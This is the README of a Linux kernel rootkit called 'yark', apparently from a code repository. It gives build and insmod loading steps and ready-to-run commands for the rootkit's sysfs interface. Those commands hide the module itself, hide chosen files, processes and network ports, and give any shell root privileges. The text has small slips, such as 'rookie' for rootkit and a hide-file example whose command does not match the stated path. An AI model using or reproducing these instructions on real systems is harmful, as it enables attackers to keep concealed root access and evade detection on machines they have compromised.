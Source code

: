 # yark - Yet Another RootKit

## How to Build

### Requirements

In order to build the kernel module, you need to install the `kernel-headers` package corresponding to kernel version.

- For ubuntu:

    ```shell
    apt-get install build-essential linux-headers-`uname -r`
    ```

### Build

We use `Makefile` to manage the build flow.

- Build the kernel module:

    ```shell
    make
    ```

- Load kernel module on local machine

    ```shell
    sudo insmod yark.ko
    ```

- Uninstall kernel module

    ```shell
    sudo rmmod yark
    ```

- Clean up

    ```shell
    make clean
    ```

## Quick Start Guide

### control by file IO
    
We use the method of writing to the file to control the rookie, and the /sys/kernel/yark file will be automatically generated when the module is loaded.

The corresponding file structure is as follows.

```shell
├── yark
　　 ├── give_root
　　 │　   ├── give
　　 │　   └── giveme
　　 ├── hide_file 
　　 │　   ├── add
　　 │　   ├── del
　　 │　   └── list
　　 ├── hide_module
　　 │　   └── vis
　　 ├── hide_port
　　 │　   ├── add
　　 │　   ├── del
　　 │　   └── list
　　 └── hide_proc
　 　　　  ├── add
 　　　　  ├── del
　　　　   └── list
```

### hide module

hide_module controls the display status of the rookie module.

If 1 is written to `hide_module/vis`, the rookie module will be visible (default status), or if 0 is written, the rookie module will not be visible.

- e.g. If we want to hide the rookie module

    ```shell
        echo -n "0" > /sys/kernel/yark/hide_module/vis
    ```

### hide file

hide_file controls the hiding / unhidding status of specified file.

Writing amy file path to `hide_file/add` can hide the file, and writing the file path to `hide_file/del` can unhide it. `hide_file/list` records all the hidden files.

- e.g. If we want to hide file `/tmp/test_hide_file`

    ```shell
        echo -n "/home/chaos/Downloads/dist" \ 
        > /sys/kernel/yark/hide_file/add
    ```

### hide process

hide_proc controls the hiding / unhidding status of specified process.

Writing any PID to `hide_proc/add` can hide the process, and writing the PID to `hide_proc/del` can unhide it. `hide_proc/list` records all the hidden processes.

- e.g. If we want to hide process with PID 1234

    ```shell
        echo -n "1234" > /sys/kernel/yark/hide_proc/add
    ```

### hide port

hide_port controls the hiding / unhidding status of network activity of the specified port.

Writing any port ID to `hide_port/add` can hide all the network activity of the specified port, and writing the port number to `hide_port/del` can unhide it. `hide_port/list` records all the hidden port.

- e.g. If we want to hide port with ID 80

    ```shell
        echo -n "80" > /sys/kernel/yark/hide_port/add
    ```

### privilege escalation

give_root can set any shell's UID to 0. (i.e. give_root can promote any shell's user to root)

Writing any shell's PID to `give_root/give` can set the shell's UID to 0. Reading `give_root/giveme` can change current shell's user to root.

- e.g. If we have a shell with PID 1234 and want to change its user to root

    ```shell
        echo -n "1234" > /sys/kernel/yark/give_root/give
    ```
- e.g. If we want to change current shell's user to root

    ```shell
        cat /sys/kernel/yark/give_root/giveme
    ```

## Development

### vscode configure

For developers using vscode, in order for vscode to know the kernel header files path, it is recommended to create a configuration file `.vscode/c_cpp_properties.json` that contains the following:

```json
{
    "env": {
        "kernel_release": "<your kernel version>"
    },
    "configurations": [
        {
            "name": "Linux",
            "defines": [
                "__GNUC__",
                "__KERNEL__"
            ],
            "includePath": [
                "${workspaceFolder}/`",
                "/lib/modules/${env:kernel_release}/build/include",
                "/usr/lib/modules/${env:kernel_release}/build/arch/x86/include/asm",
                "/usr/lib/modules/${env:kernel_release}/build/arch/x86/include",
                "/usr/lib/modules/${env:kernel_release}/build/arch/x86/include/generated",
                "/usr/lib/modules/${env:kernel_release}/build/include/uapi"
            ]
        }
    ],
    "version": 4
}
```

> Remember to change the value of `kernel_release` to the version of your kernel. You can query your kernel version with `uname -r`.

